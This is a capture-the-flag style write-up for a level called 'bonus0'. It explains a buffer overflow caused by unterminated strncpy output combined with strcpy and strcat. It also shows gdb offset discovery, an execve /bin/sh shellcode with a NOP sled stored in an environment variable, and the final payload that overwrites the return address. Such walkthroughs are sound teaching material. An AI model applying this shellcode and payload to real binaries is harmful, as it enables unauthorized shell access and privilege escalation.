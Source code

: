 Opening the binary in [dogbolt](https://dogbolt.org/) show us the vulnerability that we will exploit.
We see that the function `pp` call a function `p` to fill two string defined in `pp`.

In the function `p` we see that it read more that it return (read 4095 char return 20 char) since the function use a `strncpy` to return a new string and that `strncpy` does not put a `\0` at the end of the string, if you copy a string where it length is equal or greater than the length given in parameter to `strncpy`

In the `pp` function we see that it use a `strcpy` to copy the first input in a buffer `dest`. We know that this `strcpy` copy chars until a `\0`. The function return the result `strcat` between `dest` and the second input.

We will use the way `strcpy` copy until a `\0` with the fact that `strncpy` don't put a `\0` in some case to put input1 + input2 in `dest`. After `strcat` `dest` will overflow: `len(dest)` ==  42 < `len(input 1) + len(input 2) + 1 + len(input 2)`
The program will do something like:
[Input 1][Input 2] [Input 2]

We will start by finding the offset where we overflow in the `$eip`:
``` Shell
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
01234567890123456789
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
01234567890123456789Aa0Aa1Aa2Aa3Aa4Aa5Aa Aa0Aa1Aa2Aa3Aa4Aa5Aa

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
This give us the offset of : 9

We will put a shell code in our environment since there is not the size needed to put it after the offset.

We will place a NOP sled before the shellcode  to facilitate it's finding, since NOP instruction perform no operation, the execution will go through the NOP sled until our shellcode.
``` Shell
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```

We find an address in the middle of the NOP sled using gdb:
```
(gdb) x/s *((char **)environ)
0xbffff888:      "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀"
(gdb) x/s 0xbffff899
0xbffff899:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀"
```

First arg:          |Second arg:
[fill the first arg]|[offset][address of the shellcode][fill the rest]
```
(python -c 'print "A" * 20'; python -c 'print "B" * 9 + "\xd8\xf7\xff\xbf" + "B"*7'; cat) | ./bonus0
```
